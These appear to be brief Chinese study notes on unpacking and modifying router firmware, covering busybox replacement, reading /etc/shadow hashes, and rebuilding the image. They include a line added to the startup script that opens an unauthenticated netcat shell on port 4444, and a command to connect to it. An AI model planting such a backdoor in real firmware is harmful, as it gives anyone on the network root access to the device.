 # 固件处理


## 修改密码
但是很可能busybox里面不包含太多命令，如果必要的话可以用新的busybox代替原本的，但是替换之后固件会变大，这时候可以把web目录里面的帮助文件去掉。

查看/etc/shadow可以查看加密后的密码

## 添加开机启动命令添加shell

查看`/etc/rc.d/rcS`文件在里面添加
`/bin/busybox nc -nlp 4444 -e /bin/busybox sh &`开启一个反弹shell这里需要有nc命令
&是为了确保在后台运行


如果构建固件比原始固件相同或更小则构建成功
` ./build_firmware.sh output_directory/ working_directory/`


在编译extract-firmware的时候要修改很多文件,可以使用vscode里面的替换选项
 ![](./image/vscode.png)

使用`nc -vn 192.168.0.1 4444`进行连接

在这里我用extract-firmware解包失败，也不能打包

https://www.secforce.com/blog/2014/07/reverse-engineer-router-firmware-part-2/

